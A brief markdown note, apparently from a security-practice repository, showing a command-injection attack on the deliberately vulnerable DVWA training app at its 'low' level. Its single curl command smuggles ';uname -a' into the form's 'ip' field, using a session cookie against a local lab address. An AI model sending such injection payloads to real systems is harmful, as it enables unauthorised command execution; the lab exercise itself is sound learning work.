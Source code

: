 ## Target

    https://github.com/ethicalhack3r/DVWA
    
    DVWA Security Level: low

### Command Injection

    curl -s -b 'PHPSESSID=5hq3gpbfl0i22r2trqlommvv20;security=low' -d 'ip=;uname+-a&Submit=Submit' http://192.168.56.101/DVWA/vulnerabilities/exec/index.php | grep Linux
